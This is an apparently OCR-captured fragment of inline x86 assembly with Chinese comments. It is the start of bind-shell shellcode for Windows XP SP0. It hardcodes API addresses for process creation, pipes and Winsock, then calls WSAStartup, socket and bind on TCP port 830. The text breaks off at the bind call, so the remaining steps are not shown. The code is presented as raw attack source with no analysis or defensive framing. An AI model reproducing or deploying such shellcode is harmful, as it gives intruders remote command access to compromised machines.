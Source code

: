 ```
__asm
    {
         push ebp;
         sub  esp, 80; 
         mov  ebp,esp;
         //把要用到的函数地址存起来——以下都是 XP SP0
              mov eax,0x77e5727a
              mov [ebp+4],  eax;          CreatePipe
              mov eax,0x77e41bb8
              mov  [ebp+8],  eax;    CreateProcessA
              mov eax,0x77e97624
              mov  [ebp+12], eax;    PeekNamedPipe 
              mov eax,0x77e59d8c
              mov  [ebp+16], eax;    WriteFile
              mov eax,0x77e58b82
              mov  [ebp+20], eax;    ReadFile
              mov eax,0x77e55cb5
              mov  [ebp+24], eax;    ExitProcess
              mov eax,0x71a241da
              mov  [ebp+28], eax;    WSAStartup
              mov eax,0x71a23c22
              mov  [ebp+32], eax;    socket
              mov eax,0x71a23ece
              mov  [ebp+36], eax;    bind
              mov eax,0x71a25de2
              mov  [ebp+40], eax;    listen
              mov eax,0x71a2868d
              mov  [ebp+44], eax;    accept
              mov eax,0x71a21af4
              mov  [ebp+48], eax;    send
              mov eax,0x71a25690
              mov  [ebp+52], eax;    recv
              mov eax,0x0
              mov [ebp+56],0
              mov [ebp+60],0
              mov [ebp+64],0
 mov [ebp+68],0
              mov [ebp+72],0
LWSAStartup:
         ; WSAStartup(0x202, DATA) 
              sub esp, 400
              push esp
              push 0x202
              call [ebp + 28]
socket:
         ;socket(2,1,6)
              push 6
              push 1
              push 2
              call [ebp + 32]
              mov ebx, eax                ; save socket to ebx
LBind:
         ;bind(listenFD,(sockaddr *)&server,sizeof(server));
              xor edi,edi
              push edi
              push edi
              mov eax,0x3E030002
              push  eax     ; port 830  AF_INET
              mov esi, esp
              push  0x10               ; length
              push esi             ; &server
              push ebx             ; socket
              call [ebp + 36]          ; bind
```